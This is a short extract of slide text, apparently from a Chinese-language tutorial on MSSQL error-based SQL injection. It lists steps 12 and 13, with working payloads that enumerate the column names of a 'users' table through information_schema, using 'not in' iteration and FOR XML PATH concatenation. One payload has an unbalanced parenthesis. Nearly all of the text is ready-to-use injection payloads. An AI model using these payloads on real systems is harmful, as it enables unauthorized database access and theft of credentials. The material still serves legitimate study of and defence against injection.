

MSSql报错注入
MSSql报错注入的过程
12、获取字段名：
payload： and 1=(select top 1 column_name from information_schema.columns where table_name='users')

13、获取所有字段名：利用not in依次遍历出所有字段名
payload：and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in('id','username','password'))

payload：and 1=(select quotename(column_name)) from information_schema.columns where table_name='users' FOR XML PATH(''))